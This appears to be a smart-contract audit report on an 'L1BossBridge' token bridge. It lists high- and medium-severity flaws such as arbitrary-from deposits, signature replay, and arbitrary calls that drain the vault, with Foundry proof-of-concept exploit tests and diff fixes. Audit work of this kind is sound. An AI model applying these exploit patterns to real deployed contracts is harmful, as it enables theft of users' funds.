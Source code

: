 # High

### [H-1] While calling `L1BossBridge::depositTokensToL2` , if a user approves the bridge to spend their tokens , attacker might steal their tokens

**Description** The `depositTokensToL2` function is called by users when they want to lock their tokens in the L1Vault , which would mint them new tokens on L2. But this requires the user to approve the Token Bridge , i.e. , `L1BossBridge` contract to spend/move their tokens. Now , a malicious user may notice that a user has approved the Token Bridge to spend their tokens , and before that user can call the `depositTokensToL2` function , the malicious user(attacker) may call the same function but instead mint the L2 tokens to their own account on the L2 , essentially stealing the funds of that user.

**Impact** An attacker might steal the funds of users.

**Proof of Concepts** 
1. User approves the Token Bridge.
2. Attacker call the `depositTokensToL2` function
3. User is left with 0 funds

<details>
<summary>PoC</summary>

Place the following test into `L1TokenBridge.t.sol`

```javascript
    function test_depositTokensToL2_breaks() public
    {
        vm.startPrank(user);
        token.approve(address(tokenBridge) , type(uint256).max);
        vm.stopPrank();

        address attacker = makeAddr("attacker");
        // vm.startPrank(attacker);
        uint256 amountToSteal = token.balanceOf(user);
        vm.expectEmit(address(tokenBridge));
        emit Deposit(user , attacker , amountToSteal);
        tokenBridge.depositTokensToL2(user , attacker ,amountToSteal);
        // vm.stopPrank();

        assertEq(token.balanceOf(user) , 0);
        assertEq(token.balanceOf(address(vault)) , amountToSteal);
    }
```

</details>

**Recommended mitigation** Consider removing the `from` parameter from the `depositTokensToL2` function and replace it with `msg.sender` . This makes sure that the account calling this function is only able to move THEIR OWN tokens into the vault , not somebody else's .

```diff
-   function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
+   function depositTokensToL2(address l2Recipient, uint256 amount) external whenNotPaused {
        if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
            revert L1BossBridge__DepositLimitReached();
        }
-       token.safeTransferFrom(from, address(vault), amount);
+       token.safeTransferFrom(msg.sender, address(vault), amount);
-       emit Deposit(from, l2Recipient, amount);
+       emit Deposit(msg.sender, l2Recipient, amount);
    }
```

### [H-2] `L1Vault` approves the `L1BossBridge` to spend all its tokens , causing users to mint infinite L2 tokens

**Description** The `L1Vault` approves the `L1BossBridge` to spend all its tokens (done in the constructor of `L1BossBridge`) . Now a malicious user may call the `L1BossBridge::depositTokensToL2` function with the following parameters:
- address from : `L1Vault`
- address l2Recipient : attacker
- uint256 amount : all of the funds that the vault holds

This would mint `all of the funds that the vault holds` amount of L2 tokens to the attacker.

But due to how the `depositTokensToL2` works , the `all of the funds that the vault holds` amount of tokens get transferred FROM the vault TO the vault , i.e. , in a loop . This is due to the following line of code in `depositTokensToL2`

```javascript
    token.safeTransferFrom(from, address(vault), amount);
```

Since the token balance of the vault didn't actually decrease , we can call `depositTokensToL2` function again(with the same params) , and this can be done forever.

**Impact** The attacker can mint INFINITE tokens on the L2

**Proof of Concepts**

<details>
<summary>PoC</summary>

Place the following test into `L1TokenBridge.t.sol`

```javascript
    function test_userCanSendTokensFromVaultToThemselves() public
    {
        address attacker = makeAddr("attacker");

        uint256 vaultBalance = 500 ether;
        deal(address(token),address(vault),vaultBalance);

        vm.expectEmit(address(tokenBridge));
        emit Deposit(address(vault) , attacker , vaultBalance);
        tokenBridge.depositTokensToL2(address(vault) , attacker , vaultBalance);

        // can do this forever?

        vm.expectEmit(address(tokenBridge));
        emit Deposit(address(vault) , attacker , vaultBalance);
        tokenBridge.depositTokensToL2(address(vault) , attacker , vaultBalance);

        vm.expectEmit(address(tokenBridge));
        emit Deposit(address(vault) , attacker , vaultBalance);
        tokenBridge.depositTokensToL2(address(vault) , attacker , vaultBalance);
    }
```

</details>

**Recommended mitigation** (same as H-1 , pasted as follows for reference)

Consider removing the `from` parameter from the `depositTokensToL2` function and replace it with `msg.sender` . This makes sure that the account calling this function is only able to move THEIR OWN tokens into the vault , not somebody else's .

```diff
-   function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
+   function depositTokensToL2(address l2Recipient, uint256 amount) external whenNotPaused {
        if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
            revert L1BossBridge__DepositLimitReached();
        }
-       token.safeTransferFrom(from, address(vault), amount);
+       token.safeTransferFrom(msg.sender, address(vault), amount);
-       emit Deposit(from, l2Recipient, amount);
+       emit Deposit(msg.sender, l2Recipient, amount);
    }
```

### [H-3] `TokenFactory::deployToken` uses some assembly code which doesn't work on ZKSync Era , means we wont be able to deploy the token as intended

**Description** `deployToken` function uses the following code

```javascript
    assembly {
            addr := create(0, add(contractBytecode, 0x20), mload(contractBytecode))
        }
```

As clearly mentioned in the [documentation](https://docs.zksync.io/build/developer-reference/ethereum-differences/evm-instructions
) , this line would not work on ZKSync Era

**Impact** We cannot deploy the token.

**Recommended mitigation** Go through the docs and maybe use an other alternative of the `CREATE` opcode , or maybe even just use high level solidity to create a new contract

### [H-4] No replay protection in `L1BossBridge::sendToL1` , causing attackers to drain vault balance once any withdrawal is signed

**Description** `sendToL1` function , or it's wrapper `L1BossBridge::withdrawTokensToL1` is for users to call when they want to unlock their tokens from the vault and get them into their accounts. These functions require users to send along the withdrawal data SIGNED by one of its operators. But the problem is that this signature is stored on-chain , and a attacker may call `sendToL1` function multiple times with the same signature , ultimately draining the contract balance.

**Impact** Attacker may drain the vault balance

**Proof of Concepts** 
1. Give the vault and the attacker some initial balance
2. A signer approves ONE withdrawal attempt (and hence the signature is put on-chain)
3. The attacker uses this signature multiple times until the vault is empty , stealing all of the protocol's funds

<details>
<summary>PoC</summary>

Place the following test into `L1TokenBridge.t.sol`

```javascript
    function test_SignatureReplay() public{
        address attacker = makeAddr("attacker");

        // transfer funds to vault and attacker
        uint256 vaultInitialBalance = 1000e18;
        uint256 attackerInitialBalance = 100e18;
        deal(address(token),address(vault),vaultInitialBalance);
        deal(address(token),address(attacker),attackerInitialBalance);

        // transfer tokens to L2
        vm.startPrank(attacker);
        token.approve(address(tokenBridge),attackerInitialBalance);
        tokenBridge.depositTokensToL2(attacker,attacker,attackerInitialBalance);
        vm.stopPrank();

        // signer/operator approves the withdrawal

        bytes memory message = abi.encode( // format of message taken from `L1BossBridge::withdrawTokensToL1`
            address(token),
            0,
            abi.encodeCall(
                IERC20.transferFrom,
                    (
                        address(vault),
                        attacker,
                        attackerInitialBalance
                    )
                )
        );
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(
            operator.key,
            MessageHashUtils.toEthSignedMessageHash(keccak256(message))
        );

        while(token.balanceOf(address(vault)) > 0){
            tokenBridge.withdrawTokensToL1(
                attacker,
                attackerInitialBalance,
                v,
                r,
                s
            );
        }

        assertEq(token.balanceOf(attacker) , attackerInitialBalance + vaultInitialBalance);
        assertEq(token.balanceOf(address(vault)) , 0);
    }
```

</details>

**Recommended mitigation** Consider modifying the withdrawal mechanism to incorporate some signature replay defenses , such as use of nonces , timestamp , deadlines etc. , which makes it so that a particular signature can only be used once.

### [H-5] `L1BossBridge::sendToL1` makes arbitrary low level calls , causing attackers to call `L1Vault::approveTo` function on themselves , stealing all the funds in the vault

**Description** `sendToL1` function uses the low-level `call` method , but with arbitrary target and data. An attacker might call the `approveTo` function and allow themselves to spend all of the funds of the vault

**Impact** Attacker may steal all the funds

**Proof of Concepts** 
1. Fund the vault and the attacker with some initial balance
2. Assuming the bridge operator needs to see a valid deposit txn before withdrawal , the attacker sends some tokens to themselves on the L2
3. Attacker calls the `sendToL1` function, and approve themselves to spend the tokens of the vault
4. Attacker simply calls the `transferFrom` function and steals all the money in the vault

<details>
<summary>PoC</summary>

Place the following test into `L1TokenBridge.t.sol`

```javascript
        function test_sendToL1_CanApproveAttackerToStealFunds() public{
        address attacker = makeAddr("attacker");

        // transfer funds to vault and attacker
        uint256 vaultInitialBalance = 1000e18;
        uint256 attackerInitialBalance = 100e18;
        deal(address(token),address(vault),vaultInitialBalance);
        deal(address(token),address(attacker),attackerInitialBalance);

        // transfer tokens to L2
        vm.startPrank(attacker);
        token.approve(address(tokenBridge),attackerInitialBalance);
        tokenBridge.depositTokensToL2(attacker,attacker,attackerInitialBalance);
        vm.stopPrank();

        // make the 'arbitrary' call 
        // 1. sign the necessary message
        // 2. call the `sendToL1` function

        bytes memory message = abi.encode( 
            address(vault), // target contract's address
            0,
            abi.encodeCall(
                L1Vault.approveTo,
                    (
                        attacker,
                        type(uint256).max
                    )
                )
        );

        (uint8 v, bytes32 r, bytes32 s) = vm.sign(
            operator.key,
            MessageHashUtils.toEthSignedMessageHash(keccak256(message))
        );
        tokenBridge.sendToL1(
            v,
            r,
            s,
            message
        );

        assertEq(token.allowance(address(vault) , attacker) , type(uint256).max);

        // steal the funds
        uint256 vaultFinalBalance = token.balanceOf(address(vault));
        vm.prank(attacker);
        token.transferFrom(address(vault) , attacker , vaultFinalBalance);

        assertEq(token.balanceOf(attacker) , vaultInitialBalance + attackerInitialBalance);
        assertEq(token.balanceOf(address(vault)), 0);
    }
```

</details>

**Recommended mitigation** Consider disallowing attacker-controlled external calls to sensitive components of the bridge, such as the `L1Vault` contract.


# Medium

### [M-1] Withdrawals are prone to unbounded gas consumption due to return bombs

During withdrawals, the L1 part of the bridge executes a low-level call to an arbitrary target passing all available gas. While this would work fine for regular targets, it may not for adversarial ones.

In particular, a malicious target may drop a [return bomb](https://github.com/nomad-xyz/ExcessivelySafeCall) to the caller. This would be done by returning an large amount of returndata in the call, which Solidity would copy to memory, thus increasing gas costs due to the expensive memory operations. Callers unaware of this risk may not set the transaction's gas limit sensibly, and therefore be tricked to spent more ETH than necessary to execute the call.

If the external call's returndata is not to be used, then consider modifying the call to avoid copying any of the data. This can be done in a custom implementation, or reusing external libraries such as [this one](https://github.com/nomad-xyz/ExcessivelySafeCall).
